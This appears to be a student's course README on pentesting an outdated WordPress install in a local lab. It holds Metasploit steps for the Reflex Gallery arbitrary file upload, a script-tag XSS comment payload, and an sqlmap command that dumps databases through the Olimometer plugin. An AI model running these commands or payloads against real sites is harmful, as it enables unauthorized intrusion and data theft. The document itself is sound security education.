



# Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. Arbitrary File Upload
  - [x] Summary: Using Metasploit, allows the user to gain access to the file system.
    - Vulnerability types: Arbitrary File Upload
    - Tested in version: 3.1.3 (Reflex Gallery)
    - Fixed in version: 3.1.4 (Reflex Gallery)
  - [x] GIF Walkthrough: 
  - [x] Steps to recreate: 
	1. ```server postgresql start```
	2. ```msfdb init```
	3. ```msfconsole```
	4. At this point, you will be inside of the Metasploit console
	5. ```db_status``` (If it reads Connected to msf, you're good to go)
	6. ```search Reflex```
	7. ```use 0```
	8. ```set RHOST 127.0.0.1```
	9. ```set RPORT 8080```
	10. ```set LHOST 192.168.65.3``` (Different in some cases, it's eth0 under ifconfig)
	11. ```exploit``` (this will gain you access to the file system to edit php files)
	
### 2. XSS Comment (Authorized)
  - [x] Summary: 
    - Vulnerability types: XSS using comments that are authorized on WP
    - Tested in version: 4.1
    - Fixed in version: 4.1.26
  - [x] GIF Walkthrough: 
  - [x] Steps to recreate: 
	1. **Login to Admin account on WordPress**
	2. **Find a comment to post on**
	3. **Post a javascript tag in the comment box**
	4. Example: ```<script>alert('XSS!');</script>```
	
### 3. SQL Injection Olimometer_id Plugin
  - [x] Summary: 
    - Vulnerability types: SQL Injection
    - Tested in version: 2.56
    - Fixed in version: ***Not Fixed as of currently***
  - [x] GIF Walkthrough: 
  - [x] Steps to recreate: 
	1. Download **Olimometer Plugin** for Word Press
	2. Run SQL map with this command:
		- ```sqlmap -u http://localhost:8080/wp-content/plugins/olimometer/thermometer.php?olimometer_id=1 --dbs --threads=5 --random-agent --no-cast```
	3. It should dumb two databases ```exampldb``` and ```information_schema```

## Resources

- [WordPress Scan] (https://wpscan.com)

GIFs created with Screen To GIF

## Notes

**DO NOT FOR THE LOVE OF GOD UPDATE WORDPRESS WHEN DOING THIS UNIT, IT WAS A PAIN TO UNDO.**